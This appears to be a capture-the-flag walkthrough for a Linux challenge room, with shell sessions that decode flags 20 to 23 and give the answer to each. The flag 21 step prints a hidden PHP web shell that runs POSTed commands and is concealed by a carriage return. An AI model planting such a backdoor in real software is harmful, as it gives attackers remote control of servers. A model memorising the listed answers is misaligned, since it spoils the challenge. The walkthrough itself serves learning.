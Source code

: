 `490e69bd1bf3fc736cce9ff300653a3b`

## Task 4 Data Representation, Strings and Permissions

This set of tasks will require you to understand how certain data is represented on a Linux system. This section may require you to do some independent research.

1. Find and retrieve flag 20.

```
alice@ip-10-10-148-204:~$ cat flag20
MDJiOWFhYjhhMjk5NzBkYjA4ZWM3N2FlNDI1ZjZlNjg=
alice@ip-10-10-148-204:~$ cat flag20 | base64 -d
02b9aab8a29970db08ec77ae425f6e68
```

`02b9aab8a29970db08ec77ae425f6e68`

2. Inspect the flag21.php file. Find the flag.

```
alice@ip-10-10-148-204:~$ find / -name flag21.php 2>/dev/null
/home/bob/flag21.php
alice@ip-10-10-148-204:~$ cat /home/bob/flag21.php
<?='MoreToThisFileThanYouThink';?>
alice@ip-10-10-148-204:~$ cat -A /home/bob/flag21.php
<?=`$_POST[flag21_g00djob]`?>^M<?='MoreToThisFileThanYouThink';?>$
```

`g00djob`

3. Locate and read flag 22. Its represented as hex.

```
alice@ip-10-10-148-204:~$ find / -name flag22* 2>/dev/null
/home/alice/flag22
alice@ip-10-10-148-204:~$ cat /home/alice/flag22
39 64 31 61 65 38 64 35 36 39 63 38 33 65 30 33 64 38 61 38 66 36 31 35 36 38 61 30 66 61 37 64
alice@ip-10-10-148-204:~$ xxd -r -p /home/alice/flag22
9d1ae8d569c83e03d8a8f61568a0fa7d
```

`9d1ae8d569c83e03d8a8f61568a0fa7d`

4. Locate, read and reverse flag 23.

```
alice@ip-10-10-148-204:~$ find / -name flag23* 2>/dev/null
/home/alice/flag23
alice@ip-10-10-148-204:~$ cat /home/alice/flag23
5ffb258330b8437a090c4f66507925ae
alice@ip-10-10-148-204:~$ cat /home/alice/flag23 | rev
ea52970566f4c090a7348b033852bff5
```

`ea52970566f4c090a7348b033852bff5`

5. Analyse the flag 24 compiled C program. Find a command that might reveal human readable strings when looking in the source code.
